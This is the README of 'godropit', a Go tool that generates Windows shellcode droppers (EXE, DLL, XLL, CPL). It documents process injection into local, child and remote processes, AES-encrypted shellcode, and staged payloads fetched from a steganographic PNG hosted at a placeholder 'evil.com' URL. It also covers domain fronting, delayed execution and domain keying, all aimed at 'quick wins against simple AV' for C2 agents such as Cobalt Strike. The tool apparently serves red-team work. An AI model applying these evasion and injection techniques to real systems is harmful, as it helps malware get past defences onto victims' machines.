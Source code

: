 # godropit

Simple Dropper Automation tool just enough to automate using some common go payloads from the excellent examples of [Ne0nd0g](https://github.com/Ne0nd0g/go-shellcode), [GoPurple](https://github.com/sh4hin/GoPurple). It differs from these projects primarily in that it uses go [templates](https://pkg.go.dev/text/template) to generate the dropper code.

- [godropit](#godropit)
  - [Supported Functionality](#supported-functionality)
    - [Supported Formats](#supported-formats)
- [Install](#install)
- [Usage](#usage)
  - [Payload Types](#payload-types)
      - [Local](#local)
      - [Child](#child)
      - [Remote](#remote)
      - [Staged](#staged)
  - [Usage Tips](#usage-tips)
    - [Test Shellcode](#test-shellcode)
    - [Execution delays](#execution-delays)
    - [Domain Keying](#domain-keying)
- [Known Issues](#known-issues)
 
## Supported Functionality
* Domain keying
* Local, remote and child process execution methods.
* Automatic AES shellcode encryption
* Can also load exe's with go-donut, allowing exec of sliver-agent.exe etc. 
* Staged PNG Loader - hides encrypted shellcode inside a remote png. Supports domain fronting.

### Supported Formats
First and foremost godropit focuses on windows binary formats. It currently supports:
* Exe
* Dll
* Xll
* Cpl

Note: Xll and CPL are generated by the shared flag, all shared droppers include exports for xlls, cpls and common windows dll based attacks.

Future formats can be added on request.

# Install
To use godropit you will need to install go, as we'll need the go compiler to compile our droppers. You'll also want mingw-w64 for any payload using C, e.g. DLL droppers.

**On Linux**
```sh
sudo apt update && sudo apt install golang mingw-w64
git clone <THIS REPO>
go build -trimpath -ldflags="-w -s" -o godropit main.go && sudo cp godropit /usr/local/bin
```

**On Windows (untested)**
Install golang first. 
```cmd
choco install mingw-w64
go build -trimpath -ldflags="-w -s" -o godropit main.go
```

# Usage
[Example Usage](https://asciinema.org/a/Trd0aKJuNVbB6j4jPssbiYDuh)

Once downloaded it's fairly simple, you can either compile the binary and run it that way, or use it with "go run". Right now it only accepts baked in templates, but it will output the src to "-o /full/path/to/outputdir". This is where all the go source files will be placed, including encrypted shellcode, env variables used and go.mod/go.sum etc. Use flag --debug to keep these files after compilation, else godropit will tidy these away. 

**WARNING** Do not output to the godropit directory, doing so will break the droppers and they will NOT generate, because go will try to build godropit and your bin in one go. 

```sh
.\godropit new <local|child|remote> -i <exe/binfile> -n <outputfilename> -o <full path to output directory> -d <domainnamestring(wip)>
```

## Payload Types

#### Local

Local Payloads inject into the local process. 
**Note:** Because it exit's once complete, you can optionally specify `-l` to add an infinite for loop to keep the process open. 

```
godropit new local -i shellcode.bin -n mylocaldropper -o /path/to/outdir -l
```

#### Child

Child payloads spawn in a child process, which is started by the dropper manually (werfault.exe by default).
`--proc` and `--args` can be used to spawn a different process with arguments. Please watch the backslashes carefully, you may need to edit this in the .go file if your flag doesn't work.

```
godropit new child -i shellcode.bin -n childdropper -o /path/to/outdir --proc "c:\\windows\\system32\\notepad.exe" --args "whatever"
```

#### Remote

Remote payloads spawn in a process specified by `--pid` (werfault.exe by default).

```
godropit new remote -i shellcode.bin -n remotedropper -o /path/to/outdir -pid 1234
```

#### Staged

In addition to a stageless payload (the default), you can generate staged payloads. These are very similar to the other payloads, but it uses HTTP to grab your shellcode from a stego'd png. To use this function, you need to host your stego'd png somewhere the dropper can reach.
Below shows the local injection type, but staged and as a shared (-s) format.

```
godropit new local -i shellcode.bin -n mylocaldropper -o /path/to/outdir -l -s -u http://evil.com/test.png --img /path/to/imagefile.jpg/png
```
You can also specify the host header for domain fronting:
```
godropit new local -i shellcode.bin -n mylocaldropper -o /path/to/outdir -l -s -u http://evil.com/test.png --img /path/to/imagefile.jpg/png --host something.wibble.com
```

**Notes about stego droppers:**

* The output file will always be a png regardless of input format and not all formats/images may work.
* Stagers don't necessarily save on file size unless you are using a particularly large exe or shellcode file. This is because the staged payload uses go libraries for TLS/HTTP etc. The unitended benefit is it might look more like a more legitimate go binary, as it includes more of the go stdlib. 
* Supports domain fronting, so you can send your request to a more legitimate looking domain (not super thoroughly tested).
* No proxy detection is currently implemented, use at your own risk.

I'd only recommend stego if you are unsure about the target env, and maybe want to include some checks against IP whitelists/sandbox analysis.

## Usage Tips
Below are some usage tips to get the most out of godropit.

### Test Shellcode
**-i flag**
If you are unsure about a dropper, or just want a quick visual test - specify CALC as your input filename and godropit will autofill with some x64 shellcode to pop calc.
This does accept exe files, and will use donut to create shellcode from them. Warning though, it'll be chonky.
### Execution delays
**-t flag**
This takes the time in seconds, and adds that as a delay prior to execution and decryption. Can be useful for distancing the exec of the binary from injection activity by a margin.
If not specified, this will only delay by 1 second. 

### Domain Keying
**-d flag**
Domain keying is supported, it will check both the go hostname (which often includes domain\\) and the USERDNSDOMAIN env var.
This uses strings.Contain() and is not case sensitive, so you can put as much or as little of the domname in to this.

There are plans to support more, but I suggest you write your own bespoke payloads for most scenarios - this is just for quick wins against simple AV.

# Known Issues

1. Sometimes you need to specify a full path, relative paths can lead to mixed results/errors.
2. Some of the droppers may not work, and some C2's the shellcode doesn't always play nice - e.g. sliver. However, cobalt and posh seem reliable.
3. In some circumstances payloads may not generate or need tweaking, unfortunately in these scenarios your best option is to re-run with --debug so you can modify and compile the godropit code yourself.

